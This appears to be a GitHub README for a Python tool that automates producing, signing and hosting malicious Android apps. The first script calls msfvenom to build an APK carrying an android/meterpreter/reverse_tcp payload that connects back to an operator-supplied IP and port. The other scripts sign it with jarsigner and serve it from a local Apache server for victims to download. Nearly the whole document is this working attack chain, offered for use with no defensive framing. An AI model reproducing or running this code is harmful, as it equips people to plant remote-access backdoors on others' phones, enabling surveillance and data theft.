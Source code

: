 ```
 ______  __   __  _____   ______  ______  __  _____       ______  ______  ______  ______  ______  ______    
/\  __ \/\ "-.\ \/\  __-./\  == \/\  __ \/\ \/\  __-.    /\  __ \/\  ___\/\  ___\/\  ___\/\  ___\/\  ___\   
\ \  __ \ \ \-.  \ \ \/\ \ \  __<\ \ \/\ \ \ \ \ \/\ \   \ \  __ \ \ \___\ \ \___\ \  __\\ \___  \ \___  \  
 \ \_\ \_\ \_\\"\_\ \____-\ \_\ \_\ \_____\ \_\ \____-    \ \_\ \_\ \_____\ \_____\ \_____\/\_____\/\_____\ 
  \/_/\/_/\/_/ \/_/\/____/ \/_/ /_/\/_____/\/_/\/____/     \/_/\/_/\/_____/\/_____/\/_____/\/_____/\/_____/ 
```                                                                                                  
#Android_Msfvenom
__DESCRIPTION__: A faster way to generate and sign *android files*, for mobile access (Can be hosted on a local apache server)
------------------------------------------------------------------------------------------------------------------------
__FILE__: [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py)

__USE__: This file is used to generate the apk (Android Package Kit) using metasploits [Msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```python
import os
import time
import android_signer
import apache_server
import subprocess

#def the function to generate the apk
def android_msfvenom():
    get_gen = raw_input('[+] Generate apk using msfvenom: ')
    if get_gen == 'yes' or get_gen == 'y':
        get_name = raw_input('[+] Enter the name of the desired apk file: ')
        try:
            apk_name = get_name
        except Exception:
            print('[+] Failed to set name: {}! Exitting...'.format(apk_name))
            time.sleep(3)
        else:
            print('[+] Name set to: {}'.format(get_name))
            
        #try to change the directory
        login = os.getlogin()
        print('[+] Attempting to change directory to /{}/Desktop'.format(login))

        try:
            os.chdir('/{}/Desktop'.format(login))
        except Exception:
            working_direc = os.getcwd()
            print('[+] Could not change the directory to the desktop, look for file under {}'.format(working_direc))
        else:
            print('[+] Directory set to {}'.format(os.getcwd()))

        #get LHOST and LPORT
        get_host = raw_input('[+] Enter ip address: ')
        get_port = raw_input('[+] Enter connect back port: ')
        print('[+] Generating apk(defaulting to desktop)...')
        try:
            subprocess.call(('msfvenom -p android/meterpreter/reverse_tcp LHOST={} LPORT={} R > {}.apk'.format(get_host, get_port, get_name)), shell=True)
        except Exception:
            print('[+] Failed to generate apk! Exitting...')
            time.sleep(3)
        else:
            print('[+] Apk file successfully created! File located in {}'.format(os.getcwd()))

    elif get_gen == 'no' or get_gen == 'n':
        print('[+] Quittting...')
        exit()
        time.sleep(3)

android_msfvenom()
android_signer.sign_apk()
```

__FILE__: [android_signer.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/android_signer.py)

__USE__: This file is used to sign the apk file, that can be created using [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py), the file is then signed using [jarsigner](http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html), will a validity of [10,000 days](https://www.google.com/webhp?sourceid=chrome-instant&ion=1&espv=2&ie=UTF-8#q=10+000+days+in+years) (27 years)

```python
import os
import time
import apache_server
import subprocess

#def the function to sign the apk
def sign_apk():
    os.chdir(('/{}/Desktop'.format(os.getlogin())))
    subprocess.call('ls -alt', shell=True)
    get_apk = raw_input('[+] Enter the name of the apk file: ')

    try:
        keystore = raw_input('[+] Enter key store name (d for default): ')
        if keystore == 'd':
            keystore = 'my-release-key'
        else:
            keystore = keystore
        subprocess.call(('keytool -genkey -V -keystore {}.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000'.format(keystore)), 
                                                                                                                                        shell=True)
    except Exception:
        print('[+] Could not generate keystore, alias, keyalg, or keysize! Validity set to 0! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Keystore, Alias, Keyalg, Keysize, and validity generated! Executing Jarsigner... ')

    try:
        subprocess.call(('jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore {}.keystore {} alias_name'.format(keystore, get_apk)), 
                                                                                                            shell=True)
    except Exception:
        print('[+] Could not execute jarsigner command line arguments! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Successfully executed jarsigner! Checking if {} was successfully signed...'.format(get_apk))

    try:
        subprocess.call(('jarsigner -verify -verbose -certs {}'.format(get_apk)), shell=True)
    except Exception:
        print('[+] Could not verify that the apk {} was signed! You may run into problems later! Exitting...'.format(get_apk))
        time.sleep(3)
        exit()
    else:
        print('[+] Apk file {} was signed successfully! Executing apache server function...'.format(get_apk))
        time.sleep(2)
        server_start()

def server_start():
    apache_server.start_apache()
```

__FILE__: [apache_server.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/apache_server.py)

__USE__: This file is used to start the [apache2](https://httpd.apache.org/) server (/etc/init.d/apache2 start), and upload the generated apk file to /var/www/html

```python
import time
import os
import subprocess
from datetime import datetime

#def the function for uploading the apk file to the server
def start_apache():
    print('[+] Starting apache server...')
    time.sleep(3)
    try:
        subprocess.call('service apache2 start', shell=True)
    except Exception:
        print('[+] Could not start apache server! Exitting...')
        time.sleep(3)
        exit()
    else:
        subprocess.call('ls -alt /var/www/html', shell=True)
        print('[+] Apache server started!')
        time.sleep(3)
        server_upload()
        
def server_upload():
    subprocess.call('ls -alt', shell=True)
    file_upload = raw_input('[+] Apache server started! Choose file to upload to server: ')
    try:
        subprocess.call(('mv /{}/Desktop/{} /var/www/html'.format(os.getlogin(), file_upload)), shell=True)
    except Exception:
        print('[+] Could not move /{}/Desktop/{} to /var/www/html! Try moving the file manually! Apache server is up and running! Exitting...')
        time.sleep(3)
        exit()
    else:
        ip = raw_input('[+] Enter current ip address: ')
        print('[+] Ip address set to: {}'.format(ip))
        check_file = raw_input('[+] /{}/Desktop/{} was successfully move to /var/www/html! Open browser to view uploads: '.format(os.getlogin(),
                                                                                                                                    file_upload))
        if check_file == 'yes' or 'y':
            print('[+] Starting browser...')
            time.sleep(3)
            try:
                subprocess.call(('firefox {}'.format(ip)), shell=True)
            except Exception:
                print('Firefox is not installed! Trying Chrome...')
                try:
                    subprocess.call(('chrome {}'.format(ip)), shell=True)
                except Exception:
                    print('Chrome is not installed! Trying iceweasel...')
                    try:
                        subprocess.call(('iceweasel {}'.format(ip)), shell=True)
                    except Exception:
                        system = platform.system()
                        print('[+] Could not determine browser running on your {} machine! Try navigating manually! Exitting...'.format(system))
                        time.sleep(3)
                        exit()
                    else:
                        print('[+] Finished with exit code 0!')
                        exit()
                else:
                    print('[+] Finished with exit code 0!')
                    exit()
            else:
                print('[+] Finished with exit code 0!')
                exit()
        elif check_file == 'no' or check_file == 'n':
            print('[+] Exitting...')
            time.sleep(3)
```


